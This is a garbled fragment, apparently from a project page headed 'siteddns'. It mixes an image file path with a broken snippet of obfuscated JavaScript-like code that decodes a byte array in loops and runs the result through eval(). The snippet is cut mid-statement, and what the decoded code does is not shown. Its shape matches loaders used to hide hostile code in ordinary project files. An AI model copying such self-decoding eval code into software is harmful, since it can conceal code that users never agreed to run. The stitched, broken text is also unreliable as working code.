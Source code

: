  # siteddns
48)break;ss[us]=(((~ss[us])&0xff)-69)&0xff;ss[us]=(ss[us]-69)&0xff;us++;}while(true);";eval(us);us="us=46;while(true){if(us
